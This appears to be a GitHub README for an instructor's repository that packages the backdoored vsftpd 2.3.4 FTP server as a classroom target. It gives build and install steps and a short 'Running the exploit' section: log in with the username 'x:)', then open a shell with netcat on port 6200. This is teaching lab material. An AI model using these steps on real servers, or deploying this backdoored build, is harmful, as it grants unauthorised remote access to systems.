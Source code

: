 # vsftpd-2.3.4
Preserved here for my students, review this for hints on how to remotely access the final project server.

This is a backdoored version of vsftpd which has been packaged and configured for the convience of performing an example backdoor into a system.
vsftpd is an FTP server which was created by Chris Evans and is available at vsftpd.beasts.org, this repo uses version 2.3.4.

This backdoor which was maliciously added to the archive was introduced into the vsftpd-2.3.4 2011 
but has since been removed, thus the reason for this repository. 

The source for vsftp was https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz and the diff used in this repo was taken from http://pastebin.com/AetT9sS5.

## Changes
* vsftpd.conf to allow remote user login.
* Make file to work with patch.
* Core code, which now includes patch.

## Requirements
These installation details are for ubuntu but should be able to be adapted for most distros.

```code
 apt-get install build-essential
 apt-get install libpam0g-dev
```

## Installation
Create users for use with FTP. May not have to do this if you previously used apt-get for vsftpd.

```bash
git https://github.com/DoctorKisow/vsftpd-2.3.4.git
cd vsftpd-2.3.4

# Required by the Ubuntu 20.04.06 LTS Compiler
chmod +x vsf_findlibs.sh

# Add "-lpam" to the end of the LIBS line at the top; then save.
nano Makefile
```

```bash
install -v -d -m 0755 /var/ftp/empty
install -v -d -m 0755 /home/ftp
groupadd -g 47 vsftpd
groupadd -g 48 ftp
useradd -c "vsftpd User"  -d /dev/null -g vsftpd -s /bin/false -u 47 vsftpd
useradd -c anonymous_user -d /home/ftp -g ftp    -s /bin/false -u 48 FTP
```

```bash
# Use make to create the executable.
make
```

```bash
# Install vsftpd and its modified configurations.

install -v -m 755 vsftpd        /usr/sbin/vsftpd
install -v -m 644 vsftpd.8      /usr/share/man/man8
install -v -m 644 vsftpd.conf.5 /usr/share/man/man5 
install -v -m 644 vsftpd.conf   /etc
```


## Running the exploit

1. On one node run `vsftpd`
2. On another node connected to the network login to the server by using: `ftp <server address>`
3. Once connected use the username 'x:)' with any password.
4. Once the terminal hangs open another terminal and use `nc <server address> 6200` and you're in!
